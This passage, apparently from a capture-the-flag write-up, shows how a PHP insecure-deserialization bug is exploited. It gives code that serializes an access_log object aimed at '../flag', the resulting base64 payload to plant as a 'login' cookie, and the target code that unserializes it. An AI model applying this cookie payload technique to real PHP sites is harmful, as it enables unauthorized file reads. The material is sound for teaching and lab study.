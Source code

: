 ```php
        function __construct($u, $p) {
            $this->username = $u;
            $this->password = $p;
        }

        function __toString() {
            return $u.$p;
        }
    }

    $serialized = serialize(new access_log('../flag'));
    $encoded = urlencode(base64_encode($serialized));

    var_dump($encoded);

    $perm = unserialize(base64_decode(urldecode($encoded)));

    var_dump($perm);
?>
```

![](../../.gitbook/assets/25f16232c17c40ad9c40b864c27ad9a9.png)

Now, we add `TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9` as the `login` cookie on our browser and go to `authentication.php`. Note that we need to use `authentication.php` because that is the file where the required `access_log` class is defined.

Now back to this code:

```php
if(isset($_COOKIE["login"])){
    try{
        $perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
```

Our custom `access_log('../flag')` object will be deserialized into `$perm`.

```php
        $g = $perm->is_guest();
        $a = $perm->is_admin();
    }
```

This will most definitely generate an error because the `access_log` class has no such methods.
